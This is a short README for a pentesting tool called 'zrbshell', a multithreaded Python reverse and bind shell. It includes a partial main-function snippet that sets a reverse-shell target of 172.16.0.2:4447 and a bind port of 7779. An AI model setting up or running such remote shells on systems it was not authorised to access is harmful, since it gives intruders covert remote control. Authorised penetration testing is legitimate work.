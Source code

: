 # zrbshell
Reverse &amp; Bind Shell, Multithreaded

This script could be used on some case of Pentesting. It creates two threads one for reverse shell and another for bind shell. 
To change the IPs, Ports, go to the main function, and adjust the parameters of the objects : ZRSH and ZBSH.

#
if __name__=='__main__':

	ready_threads = []

	try:

		start_sending = threading.Event()
		
		rsh = ZRSH ( '172.16.0.2', 4447, start_sending)
		bsh = ZBSH ( 7779, start_sending)
		...
		...
		...

#

Enjoy !
